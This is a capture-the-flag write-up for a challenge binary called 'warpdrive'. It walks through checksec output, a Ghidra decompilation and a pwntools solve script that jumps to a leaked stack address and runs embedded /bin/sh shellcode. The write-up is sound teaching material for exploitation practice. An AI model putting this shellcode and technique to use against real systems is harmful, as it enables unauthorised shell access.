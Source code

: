 # warpdrive

A simple challenge if not for the lack of source code.  
Featuring: Running shell code on the stack (NX disabled)

[source](https://github.com/azazazo/blahajctf-files/raw/main/warpdrive/warp)

### Primary look through the chal

First, we run checksec on the binary
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX disabled
PIE:      PIE enabled
RWX:      Has RWX segments
```

NX is disabled, meaning that we can execute code from within the function memory. This will be explained later on.

Next, we put this through ghidra and get a decompilation:
```c
undefined8 main(void) {
  long in_FS_OFFSET;
  code *hack_fn;
  char input [40];
  long canary;
  
  // useless stuff
  canary = *(long *)(in_FS_OFFSET + 0x28);
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);

  // the vulnerability
  printf("CURRENT POSITION: %p\nWARP TO:",&hack_fn);
  fgets(input,40,stdin);
  __isoc99_sscanf(input,&DAT_00102022,&hack_fn);
    // sscanf(input, "%p", &hack_fn);
  (*hack_fn)();

  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  } 
  return 0;
}
```

Let's look through this chunk by chunk.

#### Variables
`hack_fn` is a pointer to a function which will be called later on.  
There is also a buffer (`input`) of 40 bytes available to the user. (No buffer overflow here)  
#### "useless stuff"
This initialises the canary which is used to detect a buffer overflow out of the function memory, and also intialises the buffers to stdin. This is common throughout all binaries.

#### Vulnerability
`printf` prints the _address_ of `hack_fn` by passing `&hack_fn` into "%p".  
After `fgets`-ing 40 bytes into `input`, we call sscanf, which is essentially scanf but the input comes from the first parameter instead of stdin.

(to view the value of the second parameter of sscanf, simply double click `DAT_whatever`)
![scanf](images/img1.png)


<br>
<details>

<summary>sscanf docs</summary>
<br>
<pre>int sscanf(const char *restrict str, const char *restrict format, ...);</pre>
The sscanf() family of functions scans input according to format as described below. This format may contain conversion specifications; the results from such conversions, if any, are stored in the locations pointed to by the pointer arguments that follow format. Each pointer argument must be of a type that is appropriate for the value returned by the corresponding conversion specification.
<br>
sscanf() These functions read their input from the string pointed to by str.

</details>
<br>

So, the program searches in `input` for a string of "0x1234" (or similar) and writes it into `hack_fn`, and then calls it on the next line.  
Finally, it checks whether or not the canary was overwritten and exits if so.

Essentially, the program allows you to jump to wherever in memory you want to go.

### But where would we want to jump?

To answer this, we shall look into the layout of the program in the stack.  
Going back to ghidra, we see in the assembly code that `hack_fn` lies at `[RBP-0x38]`, while `input` lies at `[RBP-0x30]`.  

![asm](images/img2.png)

For your convenience, below is a visualisation of the stack by running `tel` in GEF just after the `fgets` call.

![GEF1](images/img3.png)

NOTE: you write towards the higher address, i.e. towards RBP.  
This means that the 40 bytes of `input` lies from the line 0x10 to 0x30 (inclusive)

Recall the `printf` leak of `input`?

```c
printf("CURRENT POSITION: %p\nWARP TO:",&hack_fn);
```

From this output, we will obtain the actual location of 0x8.

### The exploit plan

Knowing all of the above, we can write our own code into `input`, and then tell the program to jump to exactly where that code lies.

1. Obtain the actual address of `input` from the first line of program output.
2. Add the offset (0x8 ???) to the payload
3. Add some shellcode for running /bin/sh to the payload
4. profit

We will write the exploit script using pwntools.

```python
from pwn import*
shell = b'\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05'
p = process('./warp')
```

### Step 1

Parse the output of the program and store the address into `addr`
```python
addr = p.recvline().decode().split()[-1][2:]
addr = int(addr, 16)
```

### Step 2

Add the offset to the payload.

```python
s = hex(addr)
buf = bytes(hex(addr + len(s)+1+8), 'utf-8') + b' '
buf += shell
p.sendline(buf)
p.interactive()
```

Notice that instead of adding 0x8 as the offset of the code from the leaked address, I also added the length of the payload.  
Since we also have to fit the address to jump to at the start of the buffer, the code lies later into the stack.

![GEF2](images/img4.png)

screenshot for visualisation purposes.  
The shellcode starts at 0x20 while the leaked address is at 0x8 because the length of "my_addr" is 7. (8+7+1 = 16 = 0x10)


## Final solve script

```python
from pwn import*

shell = b'\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05'

p = process('./warp')
#p = remote('146.190.194.110', '30001')
addr = p.recvline().decode().split()[-1][2:]
addr = int(addr, 16)
print("got address", hex(addr))

s = hex(addr) # test the length
buf = bytes(hex(addr + len(s)+1+8), 'utf-8') + b' '
buf += shell
p.sendline(buf)
p.interactive()
```
